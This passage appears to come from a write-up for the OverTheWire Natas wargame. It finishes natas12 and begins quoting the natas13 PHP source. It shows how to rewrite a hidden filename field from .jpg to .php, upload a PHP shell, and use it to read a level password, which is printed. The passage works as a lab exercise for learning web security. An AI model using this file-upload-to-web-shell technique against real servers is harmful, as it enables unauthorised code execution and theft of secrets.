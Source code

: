 Now we just need to update the file name

```text
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```

to

```text
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.php" />
```

We can do this with Burp or F12 -&gt; network -&gt; headers -&gt; edit and resend

```text
Content-Disposition: form-data; name="filename"

zpfrokehzg.php
```

```text
The file upload/zpfrokehzg.php has been uploaded
```

From here we can simply use the shell to cat the file

```text
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

## natas13

```markup
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}
```